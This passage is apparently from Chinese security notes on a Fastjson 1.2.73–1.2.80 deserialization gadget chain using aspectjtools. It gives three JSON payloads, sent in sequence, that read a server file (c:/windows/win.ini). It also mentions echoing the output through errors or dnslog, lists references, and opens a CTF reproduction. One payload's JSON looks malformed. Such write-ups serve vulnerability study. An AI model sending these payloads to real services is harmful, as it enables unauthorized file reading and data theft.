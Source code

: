 ### aspectj
fastjson1.2.73-1.2.80，依赖aspectjtools
![](https://img-blog.csdnimg.cn/64487226b26b4446a3e702cc12f0b60f.png)
分三次打
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}
```
```json
{
    "@type":"java.lang.Class",
    "val":{
        "@type":"java.lang.String"{
        "@type":"java.util.Locale",
        "val":{
            "@type":"com.alibaba.fastjson.JSONObject",
             {
                "@type":"java.lang.String"
                "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
                "newAnnotationProcessorUnits":[{}]
            }
        }
    }
```
```json
{
    "x":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    }
}
```
![](https://img-blog.csdnimg.cn/fcdfb34a51af45e0873bbe0cd985fe0a.png)

这种可以打印结果的链，都可以利用`java.lang.Character`进行报错回显，或者利用`java.net.Inet4Address`进行dnslog回显，但由于要拼接进各种特殊符号，所以这个dnslog回显也仅存在理论当中(mac平台)



参考：
[Fastjson1.2.80漏洞复现](https://hosch3n.github.io/2022/09/01/Fastjson1-2-80%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
[fastjson 1.2.80 漏洞分析](https://y4er.com/posts/fastjson-1.2.80/)
[Fastjson CVE-2022-25845 漏洞复现](https://moonsec.top/articles/112)
[https://github.com/su18/hack-fastjson-1.2.80](https://github.com/su18/hack-fastjson-1.2.80)


## 题目复现
### [深育杯2021]还是你熟悉的fastjson吗
反编译看到存在fastjson1.2.67和commons-io 2.6，这两个重点关注一下
![](https://img-blog.csdnimg.cn/6ee7e07f142143e1b55586d3c47ca3fe.png)
